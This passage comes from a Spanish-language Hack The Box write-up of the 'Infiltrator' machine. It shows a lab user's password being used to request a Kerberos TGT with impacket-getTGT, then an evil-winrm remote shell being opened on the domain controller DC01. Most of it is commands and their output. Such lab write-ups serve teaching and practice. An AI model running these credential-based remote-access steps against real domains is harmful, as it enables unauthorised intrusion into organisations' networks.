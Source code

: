 ### Abuse CanPSRemote privileges to connect with machine

Revisando nuevamente en `BloodHound`, verificamos que el usuario que disponemos tiene privilegios de `CanPSRemote` sobre el Domain Controller `DC01`. Esto nos proporciona el privilegio de acceder remotamente al equipo, mediante WinRM o RDP.

<figure><img src="../../../.gitbook/assets/3776_vmware_RW16mO6T8p.png" alt=""><figcaption></figcaption></figure>

Procederemos a solicitar el TGT (Ticket Granting Ticket) del usuario actual, verificaremos que se encuentra correctamente configurado el TGT.

```bash
❯ impacket-getTGT infiltrator.htb/m.harris:'Password01!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in m.harris.ccache

❯ export KRB5CCNAME=$(pwd)/m.harris.ccache

❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Infiltrator/Infiltrator2/content/m.harris.ccache
Default principal: m.harris@INFILTRATOR.HTB

Valid starting     Expires            Service principal
17/01/25 21:40:23  18/01/25 01:40:23  krbtgt/INFILTRATOR.HTB@INFILTRATOR.HTB
	renew until 18/01/25 01:40:23, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96
```

Nos conectaremos mediante `evil-winrm` al DC y verificaremos la flag de **user.txt**.

```bash
❯ evil-winrm -i dc01.infiltrator.htb -r infiltrator.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\M.harris\Documents> type ../Desktop/user.txt
0e37c6698b4b********************
```
